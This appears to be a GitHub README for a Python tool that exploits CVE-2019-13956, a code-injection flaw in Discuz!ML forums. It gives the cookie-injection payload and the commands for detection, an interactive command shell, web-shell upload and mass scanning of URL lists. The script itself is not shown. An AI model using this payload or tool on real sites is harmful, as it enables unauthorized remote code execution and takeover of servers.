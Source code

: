 **Discuz ML RCE** <br/>
CVE ID : CVE-2019-13956
<br/>
**URL: https://www.esoln.net/blog/2019/06/14/discuzml-v-3-x-code-injection-vulnerability/**
<br/>
**CVE URL: https://nvd.nist.gov/vuln/detail/CVE-2019-13956**
<br/>
**CVE Mitre** : https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13956


----------------
<br/>

Discuz!ML 3.2 through 3.4 allows remote attackers to execute arbitrary PHP code via a modified language cookie, as demonstrated by changing 4gH4_0df5_language=en to 4gH4_0df5_language=en'.phpinfo().'; (if the random prefix 4gH4_0df5_ were used). 


<br/>


----------------
**Installation** 

<br/>
python2.7<br/>
pip -r requirements.txt
<br/><br/>



----------------
**Help**

python discuz_mlRce.py -h<br/>



----------------
**Vulnerability Detection** 

python discuz_mlRce.py -u "http://www.ppp.cn/forum.php" <br/>

------
**GETTING Command Shell**
<br/>
python discuz_mlRce.py -u "http://www.ppp.cn/forum.php" --cmdshell<br/>
----------------

**GETTING Shell URL**
<br/>
python ddiscuz_mlRce.py -u "http://www.ppp.cn/forum.php" --getshell<br/>
----------------

**Scanning List of URL** 
<br/>
python discuz_mlRce.py -f urls.txt<br/>

----------
